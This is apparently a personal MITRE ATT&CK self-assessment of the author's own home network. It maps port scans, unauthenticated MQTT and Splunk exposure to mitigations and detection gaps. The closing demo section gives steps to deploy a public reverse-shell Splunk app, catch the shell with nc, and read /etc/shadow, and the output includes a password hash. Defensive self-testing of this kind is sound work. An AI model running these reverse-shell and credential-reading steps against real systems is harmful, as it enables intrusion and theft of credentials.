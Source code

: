 # MITTRE ATTACK analysis

# Iteration 1
This first iteration is based on the status where there were some exposed services.

| Tactics	| Techniques | Sub-tech	| Attack details	| Results	| Mitigations	| Detection	| Issues | Future actions |
|---|---|---|---|---|---|---|---|---|
|Reconnaissance TA0043	| Active Scanning	T1595	| Scanning IP Blocks 0.001	| connected via a mobile phone to get an externl IP ping home.pires.xyz results the 2.80.44.128 sudo nmap -sV | IP is 2.80.44.128 sudo nmap -sV home.rpires.xyz DNS record for 2.80.44.128: bl19-44-128.dsl.telepac.pt PORT     STATE  SERVICE  VERSION 80/tcp   open   http     lighttpd 1.4.69  113/tcp  closed ident 443/tcp  closed https  1883/tcp open mqtt 8000/tcp open   ssl/http Splunkd httpd |	M1056        Pre-compromise  detect and block uncommon data flows| My temporary IP is 87.196.80.59, which can be found at a webservice such as https://whatismyipaddress.com/. Or via cli with: dig +short myip.opendns.com @resolver1.opendns.com 87.196.80.59  There are 2 alerts generated, but the scan is not detected.|	No detection of uncommon data flows. | Create rules to indentify and block port scans.|
|Reconnaissance TA0043	| Active Scanning T1595	| Vulnerability Scanning 0.002	| splunk: https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd Shodan does not find this server. mqtt: : mosquitto_sub -t ""#"" -h home.rpires.xyz 91 13 38.50| Above scan indentifies 3 open ports: 80, 1883 and 8000. Some analysis around the web raises some paths for an attack: - 80/lighttpd 1.4.69, no vulnerabilities found https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=lighttpd - 1883/mqtt, no vulnerabilities found. However a quick test confirms that mqtt is not secured. https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto - 8000/splunk: possibly unhautenticated, confirmed with accessing via a browser to https://home.rpires.xyz:8000/en-US/app/launcher/home. Authentication GUI is restricted to paid licenses. https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd | M1042        Disable or Remove Feature or Program M1056        Pre-compromise activate authentication on splunk activate authentiction and encryption in mqtt service |	DS0029        Network Traffic not detected |	mqtt data is not encrypted neither the data sources are vetted, hence an adversary can listen and inject data. Splunk server may be compromised by a malicious actor by analyzing the logs and installing apps. One specific app may provide reverse shell | enable authentication on splunk enable authentiction and encryption in mqtt service |
|Reconnaissance TA0043	|Active Scanning T1595	|Wordlist Scanning 0.003	|dirbuster and zap scanning	|no major issues raised	|detect and block uncommon data flows such as scans or crawlers M1042        Disable or Remove Feature or Program M1056        Pre-compromise| DS0029        Network Traffic not detected |	none |updated ssh password and pihole password which were simple old passwords, collected in past breaches, confirmed in https://haveibeenpwned.com/|
|Initial Access TA0001	|Exploit Public-Facing Application	|n/a	|userless login to splunk server, then upload a malicious app as described in https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto	|root access to the splunk server machine	|The Spluk server can be protected by updating to the licensed version and thus: M1026        Privileged Account Management M1051        Update Software As last resort, put it in a DMZ: M1030        Network Segmentation Other mitigation is to use a reverse proxy: M1050        Exploit Protection |DS0015        Application Log, not detected DS0029        Network Traffic, not detected| root access to the splunk server machine	|track splunk application log, create reverse proxy access, consider licensing splunk, consider other FOSS tool|

After this initial access, the whole network is at stake, as the adversaty could:
* Persistance TA0003/T1098	Account Manipulation, create a new ssh account
* Lateral Movement TA0008/, all local machines and services could be compromised
  
## Attack steps and demo
* Guide: https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
* Code: https://github.com/0xjpuff/reverse_shell_splunk
Step 1: git clone https://github.com/0xjpuff/reverse_shell_splunk
Step 2: edit the attacker IP (own IP) and specicy a new port
Step 3: tar and then rename to be packaged as a splunk app
Step 4: deploy in the target splunk, and then reboot

![pic](splunk_install_app.png)

Step 5: listen in your computer with:  
sudo nc -nlvp "2224"  
[sudo] password for rpires:   
Listening on 0.0.0.0 2224  
Connection received on 192.168.1.65 57714  
┌──(root💀kali)-[/]  
└─# cat /etc/shadow  
cat /etc/shadow  
root:!:18764:0:99999:7:::  
....  
user:$y$j9T$6Yi8mmJLaFPUnsIb/EUE31$9iJbm1a7TR/8SPry4ilRUqf5dQqcw1mDJlbdjRSGwsC:18764:0:99999:7:::  
splunk:!:19615:0:99999:7:::  
splunkfwd:!:19711:0:99999:7:::  

# **Iteration 2**
This iteration is based on the status where the splunk server is protected with a reverse proxy and further detections were added to Splunk.
